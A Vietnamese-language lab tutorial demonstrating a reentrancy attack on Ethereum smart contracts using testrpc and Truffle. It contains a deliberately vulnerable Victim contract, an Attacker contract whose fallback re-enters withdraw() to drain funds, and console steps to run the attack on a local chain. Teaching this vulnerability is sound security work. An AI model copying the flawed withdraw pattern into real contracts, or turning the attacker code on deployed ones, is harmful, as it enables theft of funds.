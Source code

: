 referent: https://github.com/Oakland-Blockchain-Developers/Reentrancy-Attack-On-Smart-Contract/blob/master/reentrancy-attack-101.md
			https://erc20token.sonnguyen.ws/en/latest/
			http://securitybox.vn/3423/lo-hong-trong-ung-dung-hop-dong-thong-minh/
Buoc 1: chạy mạng riêng với tham số -u 0 nghĩa là sẽ chạy lên tài khoảng số 0
	$ testrpc -u 0
Buoc 2: cài truffle
	...
Buoc 3: 
	$ mkdir reentrancy
	$ cd reentrancy
	$ truffle init
	$ rm -rf test/ contracts/ConvertLib.sol contracts/MetaCoin.sol
	$ touch contracts/Attacker.sol contracts/Victim.sol

bên trong contracts/Victim.sol ta ghi:

	pragma solidity ^0.4.15;
	contract Victim {
	  uint withdrawableBalance = 2 ether;
	  
	  function withdraw() {
		if (!msg.sender.call.value(withdrawableBalance)()){
		  throw;
		}
		withdrawableBalance = 0;
	  }
	  function deposit() payable {
		withdrawableBalance = msg.value;
	  }
	}

bên trong contracts/Attacker.sol ghi:

	pragma solidity ^0.4.15;
	import './Victim.sol';
	contract Attacker {
	  Victim victim;

	  function Attacker(address victimAddress) {
		victim = Victim(victimAddress);
	  }
	  function attack() {
		victim.withdraw();
	  }
	  // Fallback function which is called whenever Attacker receives ether
	  function () payable {
		if (victim.balance >= msg.value) {
		  victim.withdraw();
		}
	  }
	}

bên trong  `migrations/2_deploy_contracts.js``` ghi:

	const Victim = artifacts.require('./Victim.sol')
	const Attacker = artifacts.require('./Attacker.sol')
	module.exports = function(deployer) {
	  deployer
		.deploy(Victim)
		.then(() =>
		  deployer.deploy(Attacker, Victim.address)
		)
	}
	
Bước 4. Compile & Deploy Contract:

	$ truffle compile
	$ truffle deploy --reset

Bước 5: mở truffle/node console and deposit eth cho Victim contract instance.

	$ truffle console
	truffle(development)> acct1 = web3.eth.accounts[0]

	truffle(development)> victim = Victim.deployed()
	
	truffle(development)> victim.then(contract => victimAddress = contract.address)
	 					  victim.then(contract => contract.deposit.sendTransaction({from: acct1, to: victimAddress, value: web3.toWei(10, 'ether')}))
	 
	truffle(development)> getBalance = web3.eth.getBalance

	truffle(development)> web3.fromWei(getBalance(acct1).toString())

	truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

	truffle(development)> web3.fromWei(getBalance(acct1).toString())

	truffle(development)> web3.fromWei(getBalance(victimAddress).toString())

Bước 6. tấn công
	attacker = Attacker.deployed()
	attacker.then(contract => attackerAddress = contract.address)
	truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

	attacker.then(contract => contract.attack())
	
	truffle(development)> web3.fromWei(getBalance(attackerAddress).toString())

	truffle(development)> web3.fromWei(getBalance(victimAddress).toString())
	
	
	
	
	
	
	
	
	
	
	
	
	
	
	

